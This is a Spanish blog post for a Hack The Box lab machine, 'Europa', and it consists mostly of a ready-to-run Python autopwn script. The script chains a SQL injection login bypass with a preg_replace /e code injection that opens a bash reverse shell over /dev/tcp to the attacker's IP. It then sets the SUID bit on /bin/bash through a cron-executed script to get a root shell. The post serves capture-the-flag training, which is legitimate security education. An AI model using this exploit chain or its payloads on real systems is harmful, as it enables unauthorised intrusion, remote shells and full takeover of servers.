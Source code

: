 ```yaml
---
layout: single
title: Europa - Hack The Box
excerpt: "Una máquina muy interesante la cual resolvemos en mi canal de YouTube. En este caso, os comparto el script `Autopwn` que nos habíamos configurado en Python, donde tras su ejecución se nos automatiza la intrusión y la escalada de privilegios mediante el uso de la librería pwn."
date: 2020-01-31
classes: wide
header:
  teaser: /assets/images/htb-writeup-europa/europa_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Autopwn
  - Scripting
tags:
  - Sqli
  - Web Exploiting
  - Privilege Escalation
  - Python
  - Pentesting
---
```


<p align="center">
<img src="/assets/images/htb-writeup-europa/europa_logo.png">
</p>

Una máquina muy interesante la cual resolvemos en mi canal de YouTube. En este caso, os comparto el script `Autopwn` que nos habíamos configurado en Python, donde tras su ejecución se nos automatiza la intrusión y la escalada de privilegios mediante el uso de la librería pwn.

Para los interesados en la resolución de esta máquina, os dejo el enlace al vídeo que subí a mi canal:

- [Máquina Europa - HackTheBox](https://www.youtube.com/watch?v=wOm4OOBLbys)

## Script Autopwn

```python
#!/usr/bin/python
#coding: utf-8

# Author: s4vitar https://www.youtube.com/watch?v=wOm4OOBLbys

import requests, sys, urllib3, signal, time, threading
from pwn import *

# Declaración de variables
url = "https://admin-portal.europacorp.htb/login.php"
url_openvpn = "https://admin-portal.europacorp.htb/tools.php"
lport = 443

signal.signal(signal.SIGINT, signal.SIG_DFL)

def obtainShell():

 s = None

 try:
  urllib3.disable_warnings()
  s = requests.session()
  s.verify = False
  s.keep_alive = False

  login_data = {
   'email' : "admin@europacorp.htb' OR '1' = '1",
   'password' : 'admin'
  }

  p1 = log.progress("Login")
  p1.status('Realizando inyección SQL')
  time.sleep(2)

  r = s.post(url, data=login_data)

  p1.status('Inyección SQL enviada')
  time.sleep(2)

  if "Dashboard" in r.text:
   p1.success("Inyección SQL realizada con éxito")
   time.sleep(1)
   log.success("Acceso al Dashboard garantizado")
   time.sleep(1)
  else:
   p1.failure("No ha sido posible realizar la inyección SQL")
   sys.exit()

  p2 = log.progress("Explotación")
  p2.status("Creando un nuevo fichero de configuración VPN")
  time.sleep(2)

  openvpn_config_file_data = {
   'pattern' : '/ip_address/e',
   'ipaddress' : """system("bash -c 'bash -i > /dev/tcp/10.10.14.55/443 0>&1'")""",
   'text' : 'ip_address = s4vitar'
  }

  p2.status("Enviando petición al servidor")
  time.sleep(2)

  r = s.post(url_openvpn, data=openvpn_config_file_data, timeout=1)

  p2.success("Petición enviada con éxito")
  time.sleep(1)

 except requests.exceptions.ReadTimeout:
  p2.success("Petición enviada con éxito")
  time.sleep(1)

 except:
  print "\n[*] Ha ocurrido un error...\n"
  sys.exit()

if __name__ == '__main__':

 try:
  threading.Thread(target=obtainShell).start()
 except Exception as e:
  log.error(str(e))

 shell = listen(lport, timeout=20).wait_for_connection()

 if shell.sock is None:
  log.failure("No se ha obtenido ninguna conexión")
  sys.exit()
 else:
  log.success("Se ha obtenido una conexión")
  time.sleep(1)
  log.info("Acceso al sistema como usuario www-data")
  time.sleep(1)

 p3 = log.progress("Escalación de privilegios")
 p3.status("Creando fichero logcleared.sh en el sistema")
 time.sleep(2)
 shell.sendline("echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /var/www/cmd/logcleared.sh; chmod +x /var/www/cmd/logcleared.sh")
 p3.status("Archivo logcleared.sh creado")
 time.sleep(120)
 p3.status("Obteniendo shell como root")
 shell.sendline("bash -p")
 p3.success("Pwned!!")
 shell.interactive()

 sys.exit()
```